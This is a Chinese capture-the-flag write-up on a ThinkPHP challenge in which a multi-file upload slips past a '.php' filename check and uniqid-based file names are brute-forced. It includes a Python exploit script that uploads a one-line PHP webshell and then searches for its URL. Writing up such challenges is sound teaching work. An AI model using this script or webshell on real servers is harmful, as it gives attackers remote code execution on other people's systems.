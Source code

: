 # 知识点:

# 1.thinkphp 文件上传路径

# 2. thinkphp upload函数多文件上传

# 3. uniqid 生成随机数爆破



# 1.进入之后直接给出源码：

```javascript
<?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller
{
    public function index()
    {
        show_source(__FILE__);
    }
    public function upload()
    {
        $uploadFile = $_FILES['file'] ;

        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }

        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4096 ;// 设置附件上传大小
        $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
        $upload->rootPath = './Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->upload() ;
        if(!$info) {// 上传错误提示错误信息
            $this->error($upload->getError());
            return;
        }else{// 上传成功 获取上传文件信息
            $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
            echo json_encode(array("url"=>$url,"success"=>1));
        }
    }
} 
```



# 2.根据源码发现时thinkphp框架，且存在文件上传

thinkphp文件上传默认路径：

/index.php/home/index/upload



# 3. thinkphp的upload函数有一个问题，当参数为空时，整个$_FILES数组的文件都会上传保存



![](images/F090759508A0464384E1C50C1094F51Fclipboard.png)

源码地址：

https://github.com/top-think/thinkphp/blob/master/ThinkPHP/Library/Think/Upload.class.php

但是该处代码只对同时上传的文件中的一个进行检查



```javascript
$uploadFile = $_FILES['file'] ;

        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }

```

当上传多个文件时，后面的文件就会绕过后缀名为php的检测



而且上传文件的文件名是uniqid函数生成，该函数生成的随机数

![](images/A089F07306794525A8ADFB4D06C3C09Bclipboard.png)



![](images/FAA8E2226D02404495FB95B0C96D2EBAclipboard.png)



该函数生成的文件名，是按照当前时间的微秒生成的所以存在爆破的可能性



# 4. 此时的思路：

## 4.1 上传两个文件，第一个为正常的 文件绕过后缀名检测

## 4.2 第二个文件为shell php文件，获取权限

## 4.3 上传第一个文件的同时获取第一个文件的文件名，根据第一个文件的文件名来爆破上传的php文件的文件名



exp:

```javascript
import requests

url = "http://3e428ede-7a4d-49ec-91f6-bc628710114a.node3.buuoj.cn/"

path = url + "/index.php/home/index/upload"
files = {"file":("a.txt",'a'), "file1":("a.php", '<?php eval($_GET["a"]);')}
r = requests.post(path, files=files)
t1 = r.text.split("/")[-1].split(".")[0]
print t1
t1 = int(t1, 16)
print t1

j = t1
while True:
    # 此处的时间需要更换为自己当天的
    path = url + "/Public/Uploads/2020-02-26/%s.php" % hex(j)[2:-1]
    try:
        r = requests.get(path, timeout=1)
    except:
        continue
    if r.status_code != 404:
        print path
        print r.text
        break
    print j, hex(j)[2:-1], r.status_code
    j -= 1
```

当上传成功php文件之后文件内容会被自动替换成flag。也许是为了防止其他师傅获得权限，校时(*^_^*)。直接运行该脚本即可得到flag